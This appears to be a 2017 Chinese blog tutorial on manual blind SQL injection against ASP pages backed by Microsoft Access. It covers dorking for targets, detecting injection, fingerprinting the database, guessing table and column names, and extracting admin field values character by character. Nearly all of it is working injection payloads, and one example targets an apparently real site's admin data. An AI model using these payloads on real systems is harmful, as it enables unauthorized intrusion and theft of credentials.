 ```yaml
---
layout:     post
title:      ACCESS手工注入
subtitle:   
date:       2017-10-15
author:     Waldo
header-img: img/post-bg-比基尼2.jpg
catalog: true
tags:
    - web安全 
    
---
```


# 判断是否存在注入
找到一个类似于http://www.xxx.com/xx.asp?id=xxxx的URL后（用Google Hack搜索），加 ‘ (单引号)，报错，则该网站可能就存在注入漏洞了，然后分为 提交 http://www.xxx.com/xx.asp?id=xxxx and 1=1和http://www.xxx.com/xx.asp?id=xxxx and 1=2 如果它们两返回的页面不同就说明存在注入漏洞

# 判断后台数据库的类型

```
http://www.xxx.com/xx.asp?id=xxxx and user>0
```

如果是ACCESS数据库，就会在返回的错误里面含有“Microsoft JEF Database”关键字

![image.png](https://upload-images.jianshu.io/upload_images/7216746-5ac31c3a30359ceb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

如果是MSSQL数据库，就会在返回的错误提示里面含有“SQL Sever”关键字

![image.png](https://upload-images.jianshu.io/upload_images/7216746-e1a7ac07dd5e5fd9.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

# 猜解表名

```
http://www.xxx.com/xx.asp?id=xxxx and exists (select * from 表名)
```
或
```
http://www.xxx.com/xx.asp?id=xxxx and exists (select count from 表名)
```

若页面返回正常，则说明存在这个表

# 猜解列名

```
http://www.xxx.com/xx.asp?id=xxxx and exists (select 列名 from 表名)
```
或
```
http://www.xxx.com/xx.asp?id=xxxx and exists (select count(列名) from 表名)
```
若页面返回正常，则说明存在这个列

# 猜解列的长度

```
http://www.xxx.com/xx.asp?id=xxxx and (select top 1 len(列名) from 表名) > x
```
其中x是数字，我们需要变换这个x就是列的长度值。

例：若提交
```
http://www.xxx.com/xx.asp?id=xxxx and (select top 1 len(adminname) from config)>1、>2、>3、>4都返回正常，
猜到>5时出现错误提示，说明列的长度为5
```
注：变换top后的数字就可以猜解这个列的第N行长度

```
http://www.xxx.com/xx.asp?id=xxxx and (select top N len(adminname) from config)>x
```
这就是猜解adminname列的第N行长度

# 猜解列的内容

介绍两个函数：

1. Mid函数：Mid(列名,N,1)函数截取第N位字符

2. ASC函数：ASC(Mid(列名,N,1))函数得到第N位字符的ASCII码

```
http://www.xxx.com/xx.asp?id=xxxx and (select top 1 asc(mid(列名,列数N,1)) from 表名) > x
```

注：1. top后的数字为该列的第N行，x为ASCII码，列数N就是在这一列中的第几个数字

例：如果提交

```
http://www.cctv5.com.cn/TVPLAY.ASP?id=7 and (select top 1 asc(mid(adminname,1,1)) from config) >50，返回正常，
提交>100返回正常，提交>80返回正常，提交>96返回正常，提交>97返回错误，所以adminname列的第一行记录中的第一个字母的ASCII码为97，也就是字母a
```
